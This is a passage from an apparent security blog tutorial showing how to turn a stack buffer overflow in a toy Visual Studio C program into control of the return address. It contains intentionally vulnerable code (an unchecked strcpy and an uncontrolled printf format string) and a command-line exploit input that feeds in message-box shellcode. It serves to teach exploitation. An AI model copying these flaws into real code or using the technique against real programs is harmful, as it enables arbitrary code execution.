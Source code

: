 Knowing that we need to overwrite a return address, let's change our code so it uses a function.
[sourcecode language="c"]
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;

void overflow(char *str) {
	char little_array[4];
	strcpy(little_array,str);
	printf(little_array);
}

int main(int argc, char **argv) {
	overflow(argv[1]);
}
[/sourcecode]

This is basically the code from the appendix of <a href="http://www.amazon.com/Bug-Hunters-Diary-Software-Security/dp/1593273851">"A Bug Hunter's Diary"</a> on page 150 (except his code doesn't have the <code>printf</code>). Running again, it still doesn't crash!  Looking in IDA, we can see the function was inlined, so we got almost the same code as before.
[caption id="attachment_667" align="aligncenter" width="300" caption="Using a function"]<a href="http://0xdabbad00.com/wp-content/uploads/2012/12/using_function.png"><img src="http://0xdabbad00.com/wp-content/uploads/2012/12/using_function-300x174.png" alt="" title="Using a function" width="300" height="174" class="size-medium wp-image-667" /></a>[/caption]

Ok, so now redefine our function so it won't be inlined:
[sourcecode language="c" firstline="4"]
__declspec(noinline) void overflow(char *str) {
[/sourcecode]

This time it finally crashes!
[caption id="attachment_672" align="aligncenter" width="300" caption="Crash"]<a href="http://0xdabbad00.com/wp-content/uploads/2012/12/crash.png"><img src="http://0xdabbad00.com/wp-content/uploads/2012/12/crash-300x147.png" alt="" title="Crash" width="300" height="147" class="size-medium wp-image-672" /></a>[/caption]

Looking at IDA, we can see things were compiled how we expected now.
[caption id="attachment_673" align="aligncenter" width="262" caption="Finally crashable"]<a href="http://0xdabbad00.com/wp-content/uploads/2012/12/function_not_inlined.png"><img src="http://0xdabbad00.com/wp-content/uploads/2012/12/function_not_inlined-262x300.png" alt="" title="Finally crashable" width="262" height="300" class="size-medium wp-image-673" /></a>[/caption]

<b>Nothing so far was any sort of protection mechanism by Windows</b>, I just wanted to show all the problems you'll probably run into if you try to exploit something compiled with a modern Visual Studio.

<h3>Going from crashable to exploitable</h3>
Now we can crash our application, but can we exploit it?  This is the situation reached by many vulnerability analysts today.  They can crash an app, and maybe that allows for a remote Denial of Service attack, but no one really get's too proud for finding a crash.  You want arbitrary code execution!

So you open up windbg and run your program with the argument "AAAABBBBCCCCDDDDEEEEFFFF" in order to figure out which one controls the return address, and windbg gives you:
<pre>
(2378.1c30): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
43434343 ??              ???
</pre>
So if you change the "CCCC" part of your argument you can control the return address.  Where to send it to?  Well, the standard method is to include your shellcode with input so you'll probably bring up cygwin and do something like:
<pre>
$ ./test.exe "AAAABBBB`perl -e 'printf("\x61\x61\x61\x61")'``cat w32-msgbox-shellcode-esp.bin`"
</pre>
<a href="https://code.google.com/p/w32-msgbox-shellcode/">w32-msgbox-shellcode-esp.bin</a> just pop's a "hello world" message box.
